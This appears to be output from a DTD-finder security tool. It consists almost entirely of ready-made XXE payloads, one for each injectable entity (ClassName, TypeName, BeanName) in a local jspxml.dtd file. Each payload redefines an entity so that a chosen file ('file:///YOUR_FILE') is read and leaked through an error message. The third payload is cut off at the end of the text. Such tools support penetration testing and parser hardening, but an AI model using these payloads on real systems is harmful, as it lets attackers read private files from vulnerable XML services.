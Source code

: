**Injectable entity:** `ClassName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % ClassName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `TypeName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % TypeName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `//home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd`

**Injectable entity:** `BeanName`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file:////home/sagar/Main/MTech/SDE/Project/xmlvuln/dtd-finder/target/test-classes/jspxml.dtd">

    <!ENTITY % BeanName '(aa) #IMPLIED>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ATTLIST attxx aa "bb"'>

```